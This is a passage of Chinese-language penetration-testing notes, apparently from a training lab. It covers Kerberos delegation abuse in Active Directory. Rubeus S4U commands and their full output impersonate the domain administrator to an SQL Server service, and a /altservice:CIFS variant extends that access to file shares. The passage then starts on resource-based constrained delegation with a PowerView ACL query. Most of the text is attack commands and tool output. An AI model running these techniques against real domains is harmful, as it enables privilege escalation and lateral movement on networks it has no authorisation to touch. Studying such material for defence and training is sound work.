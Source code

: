 ```cmd
Flags : name_canonicalize, pre_authent, initial, renewable,
forwardable
KeyType : rc4_hmac
Base64(key) : LfbSfF81qk+oMed+zvLoZg==

```
2. 冒用其他人身份申请ticket

```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator
/msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt

...
[*] Action: S4U
[*] Action: S4U
[*] Using domain controller: CDC01.prod.corp1.com (192.168.120.70)
[*] Building S4U2self request for: 'iissvc@PROD.CORP1.COM'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'administrator@PROD.CORP1.COM' to 'iissvc@PROD.CORP1.COM'
[*] base64(ticket.kirbi):
doIFejCCBXagAwIBBaEDAgEWooIEhTCCBIFhggR9MIIEe...
[*] Impersonating user 'administrator' to target SPN
'mssqlsvc/cdc01.prod.corp1.com:1433'
[*] Using domain controller: CDC01.prod.corp1.com (192.168.120.70)
[*] Building S4U2proxy request for service: 'mssqlsvc/cdc01.prod.corp1.com:1433'
[*] Sending S4U2proxy request

[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'mssqlsvc/cdc01.prod.corp1.com:1433':
doIGfDCCBnigAwIBBaEDAgEWooIFajCCBWZhggViMIIF...
[+] Ticket successfully imported!
```
3. 可以成功登录sql server
4. 通过添加/altservice:CIFS 获得文件服务权限
```
.\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator
/msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /altservice:CIFS /ptt
```

## 16.2.4 Resource-Based Constrained Delegation

基于资源约束委派
1. 信息收集 发现用户dave 对 appsrv01 有GenericWrite权限

```powershell
PS C:\tools> Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ |Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
AceType : AccessAllowed
ObjectDN : CN=APPSRV01,OU=prodComputers,DC=prod,DC=corp1,DC=com
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
OpaqueLength : 0
ObjectSID : S-1-5-21-3776646582-2086779273-4091361643-1110
InheritanceFlags : None
BinaryLength : 36
IsInherited : False
IsCallback : False
PropagationFlags : None
SecurityIdentifier : S-1-5-21-3776646582-2086779273-4091361643-1601
AccessMask : 131132
AuditFlags : None
AceFlags : None
AceQualifier : AccessAllowed
Identity : PROD\dave
```